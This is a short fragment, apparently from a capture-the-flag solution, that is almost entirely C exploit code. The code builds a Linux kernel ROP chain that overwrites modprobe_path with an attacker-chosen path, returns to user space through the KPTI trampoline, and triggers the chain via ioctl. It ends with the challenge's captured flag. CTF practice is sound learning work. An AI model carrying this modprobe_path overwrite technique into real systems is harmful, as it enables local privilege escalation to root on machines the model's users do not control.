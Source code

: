 ```c
    arr[off++] = poprsi;
    arr[off++] = modprobe+8;
    arr[off++] = poprcx;
    arr[off++] = 0x61616e77702f7265; // er/pwnaa    
    arr[off++] = mov;

    arr[off++] = kpti_trampoline; 
    
    arr[off++] = 0x0; // dummy rax
    arr[off++] = 0x0; // dummy rdi
    arr[off++] = user_rip;
    arr[off++] = user_cs;
    arr[off++] = user_rflags;
    arr[off++] = user_sp;
    arr[off++] = user_ss;

    ioctl(fd1, 1, 0);
}
```

flag: ingehack{you_can_say_you_have_ZERO_LIMITS!!_badum_tss_🥁}
